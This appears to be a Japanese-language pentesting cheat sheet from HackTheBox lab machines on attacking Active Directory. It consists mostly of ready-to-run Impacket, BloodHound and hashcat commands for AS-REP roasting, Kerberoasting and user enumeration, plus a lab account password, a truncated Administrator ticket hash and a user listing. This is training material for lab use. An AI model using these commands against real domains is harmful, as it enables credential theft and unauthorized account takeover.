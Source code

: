 ## GetNPUsers.py (AS_REProast)

ASREPRoast攻撃により**Kerberos事前認証が不要**なユーザーを探索しそのパスワードハッシュの取得を狙う。

```
# specific user 
┌──(kali㉿kali)-[~]
└─$ impacket-GetNPUsers.py -no-pass -dc-ip 10.10.10.52 htb.local/mantis

# Using user list
┌──(kali㉿kali)-[~]
└─$ GetNPUsers.py htb.local/ -no-pass -dc-ip 10.10.10.161 -usersfile users.txt 
```

**krb5asrep**ハッシュのクラック：

```
┌──(kali㉿kali)-[~]
└─$ hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt
```

## Blood Hound from "LOCAL"

```
┌──(kali㉿kali)-[~]
└─$ bloodhound-python -u <domain account> -p <account's password> -ns <target's IP> -d <Domain> -c All

(e.g.) $ loodhound-python -u svc_tgs -p GPPstillStandingStrong2k18 -ns 10.10.10.100 -d active.htb -c All
```

## GetUserSPNs.py
（指定したドメインアカウント下で動いてるSPN（Service Principal Name）を探す。）

Kerberoastableユーザのハッシュをとる。

- -reqeust: TGS（サービスチケットを発行するサーバ）にリクエストを出す
- -save: TGSを保存する（<username>.ccacheのフォーマット）

```
┌──(kali㉿kali)-[~]
└─$ GetUserSPNs.py -request -dc-ip <target IP> <domain>/<user name> -save -outputfile GetUserSPNs.out

(e.g.) $ GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```
  
(c.f. [0xdf hacks stuff](https://0xdf.gitlab.io/2018/12/08/htb-active.html#decrypting-gpp-password))

> I’ll use the GetUserSPNs.py script from Impacket to get a list of service usernames which are associated with normal user accounts. 
It will also get a ticket that I can crack. 
  
***GetUserSPNs.pyの結果Administratorのハッシュが取れた！！！***
  
```
┌──(kali㉿kali)-[~]
└─$ ls
Administrator.acache
GetUserSPNs.out
  
┌──(kali㉿kali)-[~]
└─$ cat GetUserSPNs.out
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$25bac967bc8a16...
```
  
注意）このハッシュは（**krb5tgs**）のhashcatでは「-m 13100」。ハッシュタイプ18200はAS_Repのハッシュ。

  
### GetNPUsers.pyとGetUserSPNs.pyについて
#### GetNPUsers.py -> "AS_REPRoasting"（存在するユーザ名のみでOK）
-> ASREPRoastingとは、ケルベロスチケットを要求する際にpre-authenticationを必要としないようなアカウントに対して、"Does not require Pre-Authentication"なる権限を持っている場合に起こる。

  
#### GetUserSPNs.py -> "TGS_REPRoasting"（存在するユーザ名とそのパスワード（それなりの権限が必要かも））
-> そのドメイン内のアカウントのクリデンシャルを知っていれば、それは普通にTGSに対して要求できるでしょ。で、その**TGS_REPにはSPNのハッシュが含まれている**。これをofflineでクラックすると。（Activeの場合は、AdministratorがSPNに関連してたのがセキュリティホールかな）

# GetADUser
そのADのユーザ一覧表示（1人分のcredentialがあればできる）
 ```
  ┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174/LocalBloodHound]
└─$ impacket-GetADUsers -all support.htb/ldap -dc-ip 10.10.11.174                                                                                130 ⨯
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Querying 10.10.11.174 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2022-07-20 02:55:56.729359  2022-10-07 13:29:51.666899 
Guest                                                 2022-05-28 20:18:55.212082  <never>             
krbtgt                                                2022-05-28 20:03:43.762633  <never>             
ldap                                                  2022-05-28 20:11:46.462052  2022-10-07 16:50:43.791910 
support                                               2022-05-28 20:12:00.977707  <never>             
smith.rosario         smith.rosario@support.htb       2022-05-28 20:12:19.305799  <never>             
hernandez.stanley     hernandez.stanley@support.htb   2022-05-28 20:12:34.870818  <never>             
wilson.shelby         wilson.shelby@support.htb       2022-05-28 20:12:50.352678  <never>             
anderson.damian       anderson.damian@support.htb     2022-05-28 20:13:05.993295  <never>             
thomas.raphael        thomas.raphael@support.htb      2022-05-28 20:13:21.774558  <never>             
levine.leopoldo       levine.leopoldo@support.htb     2022-05-28 20:13:37.508924  <never>             
raven.clifton         raven.clifton@support.htb       2022-05-28 20:13:53.133921  <never>             
bardot.mary           bardot.mary@support.htb         2022-05-28 20:14:08.633925  <never>             
cromwell.gerard       cromwell.gerard@support.htb     2022-05-28 20:14:24.258920  <never>             
monroe.david          monroe.david@support.htb        2022-05-28 20:14:39.712058  <never>             
west.laura            west.laura@support.htb          2022-05-28 20:14:55.446424  <never>             
langley.lucy          langley.lucy@support.htb        2022-05-28 20:15:10.930801  <never>             
daughtler.mabel       daughtler.mabel@support.htb     2022-05-28 20:15:26.274558  <never>             
stoll.rachelle        stoll.rachelle@support.htb      2022-05-28 20:15:42.290214  <never>             
ford.victoria         ford.victoria@support.htb       2022-05-28 20:15:58.118301  <never> 
 ```
  
